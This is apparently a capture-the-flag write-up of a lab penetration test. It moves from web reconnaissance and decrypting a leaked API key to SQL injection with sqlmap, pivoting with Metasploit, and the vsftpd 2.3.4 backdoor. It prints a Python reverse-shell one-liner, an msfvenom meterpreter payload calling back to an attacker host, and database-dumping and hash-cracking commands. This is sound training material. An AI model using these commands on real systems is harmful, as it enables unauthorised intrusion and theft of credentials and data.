# Borderlands

This detailed walkthrough traces the strategic progression of a multi-stage penetration test, beginning with web application reconnaissance and leading through cryptographic analysis, lateral network movement, and ultimately to the exploitation of a BGP routing protocol to intercept critical data.
> ⚠️ *Note: This write-up may not be the shortest method for this task. I wanted to walk you through my thought process of problem-solving.*


## Reconnaissance

After giving a target host from the task, first thing to do is a reconnaissance. I used `nmap` for this purpose:
```bash
$ sudo nmap -sS -p- -T4 -sC -sV -O -v <target_ip>
...
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 88:5d:3f:71:ea:5e:3f:1d:ae:36:30:c2:ee:58:fa:e6 (RSA)
|   256 8b:b5:30:7e:38:95:be:06:00:ae:39:3d:35:c1:00:e0 (ECDSA)
|_  256 d1:d5:e6:95:65:e9:85:69:15:6e:a0:48:6c:a9:4e:c5 (ED25519)
80/tcp   open   http       nginx 1.14.0 (Ubuntu)
| http-git:
|   <target_ip>:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: added mobile apk for beta testing.
| http-methods:
|_  Supported Methods: GET HEAD POST
|_http-title: Context Information Security - HackBack 2
|_http-server-header: nginx/1.14.0 (Ubuntu)
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
8080/tcp closed http-proxy
Device type: general purpose|media device|phone|webcam|storage-misc|specialized
Running (JUST GUESSING): Linux 3.X|4.X|5.X (90%), Amazon embedded (88%), Google Android (87%), ...
```

I was waiting for the `nmap` scan for quite a long time, that's why I usually use verbose mode `-v`. At the beginning of the scan `nmap` showed the port `22 ssh` and port `80 http` opened. Since no credentials were provided, I proceeded to analyze the web page.

When I went to a website `http://<target_ip>/`, there was an authentication form and some links. I decided to start by checking for `SQLi` with `sqlmap`. Unfortunately, it was not detected, so the next step was analyzing the links. Most links just led to `.pdf` documents that did not contain any interesting information, but there was another link - to download an `.apk` file. This is where reverse engineering skills come into play.

Yeah, I used to do reverse engineering with `ghidra` and `IDA Pro`, but I had never reversed Android files. I tried to use `ghidra` for that, but it did not work correctly. I encountered a problem where `ghidra` could not import all the files the `.apk` file contained. I searched for another tools and found the `apktool`.



After decompilation I did `cd mobile-app-prototype` and then searched for a string with `grep -r "api"`. I was looking for a `API key` from bottom to top and quickly found the API encrypted key:



It was not the answer to any question of the task, so we need to decrypt it. to view the source code I used `jadx-gui` tool, where i chose the decompiled folder. There I navigated on `Navigation` bar and selected a `Text search` option. I used patterns like `decode`, `decrypt`, `api`, `key`. Luckily, I found the `decrypt` function:



Looking at the code, we can see the decrypt logic is missing, but we see the `apiPath`. 



I decided to check this url, but got `Invalid API key` error. At this point I was stuck. I launched the `ffuf` fuzzer for directory and file search with medium wordlist for directories brute force, but no result. Then I ran `dirb` with a common wordlist and it found a `/.git/` directory.



`Nmap` finished the scan task and also showed the `/.git/` directory. This finding is crucial for penetration testing as it can contain a lot of interesting files inside. I always use `git-dumper` to dump them:



There were some API files, where the API key logic was described:



`home.php` file had a valid API key - the answer on the second question:



I found strings with patterns `WEB`, `GIT`, and `AND` in `api.php` file, but they were just first 20 symbols of a valid keys. Moreover, i checked the url with a these valid parts of API keys and got a SQL error - `Error-based SQL injection` can be possible:



## Resource Development

Before going to exploit SQLi, let's first reveal the other 2 API keys. I wrote all findings to a file and tried to find the way of decryption:



We have a full and a part of a valid `WEB` API key, an encrypted string of an another full API key and 2 parts of `AND` and `GIT` API keys.

The encrypted string we found looks like the cleartext of API key `AND` as the position of the numbers is the same - not a modern or sophisticated algorithm that works with Unicode. It just encrypts letters.

The same letters are encrypted differently (like `h -> t` and then `h -> u`), so it might be a block cipher. Let's test and find a pattern.

XOR uses a random number sequence - did not seem to be the right algorithm. Let's convert letters to their ASCII code and see the difference between the cleartext and the ciphertext:
```python
def string_to_ascii_sequence(text):
    ascii_sequence = []
    for symbol in text:
        if symbol.isalpha():
            ascii_sequence.append(ord(symbol))
        else:
            ascii_sequence.append(0)
    return ascii_sequence

def calculate_difference(seq1, seq2):

    difference = []
    for i in range(sequence_length):
        difference.append(seq1[i] - seq2[i])

    return difference

sequence_length = 20
cleartext = input("Cleartext: ")
ciphertext = input("Ciphertext: ")[:sequence_length]

print(calculate_difference(string_to_ascii_sequence(ciphertext), string_to_ascii_sequence(cleartext)))
```



We can notice the reiterated sequence number: `2,-12,13,-7` and `2,14,13,-7`. It looks like these blocks of text were encrypted with the same key. What if the Alphabet Size is 26 (just English letters)? We know it does not contain numbers because they are not encoded. On the second position can be the same number 14, if we do a module by 26: `-12 (mod 26) = -12 + 26 (mod 26) = 14 (mod 26)`. Looks like the truth. Applying this method, we get  `[2,14,13,19,4,23,19,2,14,13,19,0,4,0,23,19,2,0,14,13]`. If we take away the 0, where numbers are placed in the API key, we will get an exact sequence `2,14,13,19,4,23,19`.

As we assumed that Alphabet Size is the 26, the first letter would be A with index 0, the second would be B with index 1... It means the sequence `2,14,13,19,4,23,19` would be `CONTEXT`. This matches a typical Vigenère cipher. Let's decrypt the `AND` API key:
```python
def string_to_ascii_sequence(text):
    ascii_sequence = []
    for symbol in text:
        # 'A' code in ASCII table is 65
        ascii_sequence.append(ord(symbol) - code_A_ascii)
    return ascii_sequence


ciphertext = input("Ciphertext: ")
key = input("Key: ")
alphabet_size = 26
code_A_ascii = 65

# 'a' - 'A' in ASCII
upper_to_lower = ord('a') - ord('A')

cipher_length = len(ciphertext)

# Extend short key to a full-sized ciphertext length
times_to_extend = cipher_length // len(key) + 1
extended_key = list(key * times_to_extend)

'''
The current Vigenère-like cipher is not case sensitive,
so we need to process the lowercase letters for proper decoding
'''
get_lowercase_letters_position = []
for position, char in enumerate(ciphertext):
    if char.isalpha() and char.islower():
        get_lowercase_letters_position.append(position)
ciphertext.upper()

# Shift the key elements for proper decoding
get_number_position = {}
for position, char in enumerate(ciphertext):
    if char.isdigit():
        get_number_position[position] = int(char)

for pos_key, pos_value in get_number_position.items():
    extended_key.insert(pos_key, str(pos_value))

ciphertext = string_to_ascii_sequence(ciphertext.upper())
extended_key = string_to_ascii_sequence(extended_key)

# Decrypt the ciphertext like Vigenère cipher
decrypted = []
for i in range(cipher_length):
    decrypted.append((ciphertext[i] - extended_key[i]) % alphabet_size + code_A_ascii)

cleartext = []
for symbol in decrypted:
    cleartext.append(chr(symbol))
    # Process lowercase letters
    index = len(cleartext) - 1
    if index in get_lowercase_letters_position:
        cleartext[index] = chr(symbol + upper_to_lower)

# Process not-encoded numbers
for position, number in get_number_position.items():
    cleartext[position] = str(number)

 
print(f'Decrypted text: {''.join(cleartext)}')
```



## Reconnaissance #2

The last `GIT` API key was left (that starts with `GITtFi80llzs4TxqMWtC`). The hint said to explore the git. I used different wordlist, but could  not find anything. I then searched for a specific wordlist using terms like `git wordlist directories` in the Internet, and used the [first](https://github.com/emadshanab/WordLists-20111129/blob/master/Directories_All.wordlist) one. I Downloaded the file and ran the following command:

```bash
ffuf -w ./Directories_All.wordlist:FUZZ -u http://<target_ip>/.git/FUZZ -ic -recursion -recursion-depth 5 -fc 301,403
```

We earlier found the `/.git/HEAD` file. It refers to `/.git/refs/heads/master` (the string in the file). Then I went to that link and download a file. There was a hash, so I used `git show <commit_hash>` command to see the changes, but it showed nothing meaningful. Fortunately, `ffuf` found a `HEAD` file in `http://<target_ip>/.git/logs/` directory, where we could see the commits with their messages:



I used `git show <commit_hash>` again to read the commit, that removes the full `GIT` API key and got it:



Returning to SQL injection: as I tried the link `http://<target_ip>/api.php?documentid={}&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD`, I got this error:

```sql
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '}' at line 1
```

I used the `sqlmap` to prove my thoughts. The result confirmed my suspicions:



## Rabbit hole

I enumerated the DB for non-default databases (`--dbs` flag to look for available databases):



And dumped the non-default database with `--dump` flag:

```bash
sqlmap -u 'http://<target_ip>/api.php?documentid={}&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD' -batch --level 5 --risk 3 --dump myfirstwebsite
```



There were 2 tables, one of which contained the username and its password hash. I used this command to crack the hash:
```bash
hashcat -a 0 -m 3200 '$2y$10$wWeyIzGcD7TVwZ7y7d3UCO5eEssZShTQzBU2yIebvvQQw1y676zVW' /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt
```



After log in to the page with cleartext credentials, we see 5 links to the `.pdf` documents, that we saw on the login page. If we clicked on any link file, we would see the page with the document name, location and it's id like content of the table `documents` of our dumped database. I used exploits compatible with that PHP version (`info.php` file showed it), but nothing worked. I detected a `Reflected XSS`, but it couldn't provide a shell... and thought, that `sqlmap` also has the `shell` function and allows to execute commands.

## Return to reality, Initial Access

I ran:

```bash
sqlmap -u 'http://<target_ip>/api.php?documentid=1&apikey=WEBLhvOJAH8d50Z4y5G5g4McG1GMGD' --os-shell --batch
```


Unfortunately, not every command worked on the first try (which was necessary for my file transfer method), so I decided to establish my own reverse shell for proper connection. I started listener with `nc -lvnp 8888` on my attack host, then did:
```bash
os-shell> python -V
do you want to retrieve the command standard output? [Y/n/a] Y
command standard output: 'Python 2.7.15+'
```

As it has python, I ran:
```bash
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<attacker_ip>",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Discovery

I got a shell. I also ran `python -c 'import pty; pty.spawn("/bin/bash")'` to turn on `/bin/bash` shell. I attempted privilege escalation using `linpeas.sh` and Metasploit' `*suggester*` module, but nothing worked fine. So i decided just to find a `router1`.

We have a task to get into `router1` host, so  we need to determine its ip address. Look at the interfaces of the current pivot host:

```bash
$ ip a

1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
		link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
		inet 127.0.0.1/8 scope host lo
		valid_lft forever preferred_lft forever
15: eth0@if16: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default
		link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
		inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
		valid_lft forever preferred_lft forever
19: eth1@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UNKNOWN group default
		link/ether 02:42:ac:10:01:0a brd ff:ff:ff:ff:ff:ff link-netnsid 0
		inet 172.16.1.10/24 brd 172.16.1.255 scope global eth1
		valid_lft forever preferred_lft forever
```

We have localhost `127.0.0.1`, `eth0` and `eth1`. Both `eth0` and `eth1` look solid. Let's start with the first one as this network has a smaller IP range. Firstly, I decided to use `Metasploit` to scan, but no host was found in all interfaces. I thought it was broken, so then decided to scan manually on the host with `rustscan`. Find and download the latest version from github:

```bash
$ wget https://github.com/bee-san/RustScan/releases/download/2.4.1/x86_64-linux-rustscan.tar.gz.zip
```

Unpack the archive:

```bash
$ unzip x86_64-linux-rustscan.tar.gz.zip
$ tar -zxvf x86_64-linux-rustscan.tar.gz
```

Then transfer the `rustscan` binary to the target host:

1. On the attack host:
```bash
$ cat rustscan | base64 | xclip -selection clipboard
```
We now have the base64 rustscan content ready to paste.

2. On the target host:
```bash
$ cat > rustscan.b << 'EOF'
```
Then paste the content from clipboard (e.g. `Ctrl+Shift+V`). If you're on a new line, type `EOF` and press `ENTER`. If you're not, just press `ENTER` and do the same.

To run the binary we first need to decode it and grand execution permissions:
```bash
$ cat rustscan.b | base64 -d > rustscan
$ chmod 777 rustscan
```

## Reconnaissance of the router1 host

I ran `./rustscan -a 172.16.1.0/24` to determine an alive host. It showed 2 ip addresses: our target and an unknown:



To stop this process after identifying the `router1`, I found the PID of that process with `ps aux` command in `sqlmap's shell` and did there `kill -9 <rustscan's PID>`. To find all open ports you can also do `./rustscan -a 172.16.1.128`.



## Initial Access with Metasploit / Lateral Movement

I thought: "Well, I found an ip-address. Cool! But why did I drop the `rustscan` to the target host if just the information about the `ip` and `opened ports` doesn't give information about its exploitation. I need another tool like `nmap` or `nc` to grab the banner of a services and detect its versions. There is no `telnet` or `ftp` command to connect to the open `port 21`. I also cannot find `root` credentials to do `ssh port forwarding`, but I can try to `pivot` another way".

I mentioned earlier that I had a `meterpreter shell` on the target host, but could not find any alive host. The solution was to add a route to the new local network. The module runs on the attacker host, where `meterpreter` is, not the `meterpreter` host, which is why it didn't work. Let's solve this problem and do `pivoting` with `Metasploit`:

1. Generate a payload for reverse connection (the architecture type I got from `uname -a` command - it's a `x64 bit system`):
```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=<attacker_ip> LPORT=7777 -f elf > shell
```

2. Transfer the payload the same way we did with the `rustscan` binary;
3. Set up a listener to catch a shell with `Metasploit`:
```ruby
$ sudo msfconsole -q
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload linux/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost <attacker_ip>
msf exploit(multi/handler) > set lport 7777
msf exploit(multi/handler) > run

[*] Started reverse TCP handler on <attacker_ip>:7777
...
```
4. Run a shell with `./shell` on the target host.
5. After getting a `meterpreter shell` do:
```ruby
meterpreter > run autoroute -s 172.16.1.0/24
```

Now we could see any host in the `172.16.1.0/24` network.

## Reconnaissance of the router1 host #2

We stopped at vulnerability scanning as we could not detect service versions and find exploits, so let's dive into it. I used modules for each port:
1. For `FTP`:
```ruby
msf auxiliary(scanner/portscan/tcp) > use auxiliary/scanner/ftp/ftp_version
msf auxiliary(scanner/ftp/ftp_version) > set RHOSTS 172.16.1.128
msf auxiliary(scanner/ftp/ftp_version) > run
```
2. For `Zebra Routing`:
```ruby
msf auxiliary(scanner/ftp/ftp_version) > use auxiliary/scanner/telnet/telnet_version
msf auxiliary(scanner/telnet/telnet_version) > set RHOSTS 172.16.1.128
msf auxiliary(scanner/telnet/telnet_version) > set rport 2601
msf auxiliary(scanner/telnet/telnet_version) > run
...
msf auxiliary(scanner/telnet/telnet_version) > set rport 2605
msf auxiliary(scanner/telnet/telnet_version) > run
```



I also tried to log in with blank login and password:
```ruby
msf auxiliary(scanner/telnet/telnet_version) > use auxiliary/scanner/telnet/telnet_login
msf auxiliary(scanner/telnet/telnet_login) > set RHOSTS 172.16.1.128
msf auxiliary(scanner/telnet/telnet_login) > set RPORT 2601
msf auxiliary(scanner/telnet/telnet_login) > set USERNAME ""
msf auxiliary(scanner/telnet/telnet_login) > set PASSWORD ""
msf auxiliary(scanner/telnet/telnet_login) > set BLANK_PASSWORDS true
msf auxiliary(scanner/telnet/telnet_login) > run
```



## Initial Access to the router1 host

We could notice the `vsFTPd version 2.3.4`. Searching for `ftp 2.3.4` in `Metasploit` I found exactly what I need: a `backdoor command execution` just for our service. What a coincidence! Just use it:
```ruby
msf auxiliary(scanner/telnet/telnet_login) > use exploit/unix/ftp/vsftpd_234_backdoor
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.16.1.128
msf exploit(unix/ftp/vsftpd_234_backdoor) > set RPORT 21
msf exploit(unix/ftp/vsftpd_234_backdoor) > run
msf exploit(unix/ftp/vsftpd_234_backdoor) > run

[*] 172.16.1.128:21 - The port used by the backdoor bind listener is already open
[+] 172.16.1.128:21 - UID: uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
[*] Found shell.
[*] Command shell session 2 opened (Local Pipe -> Remote Pipe via session 1) at 2026-01-23 10:17:17 +0300
...
```

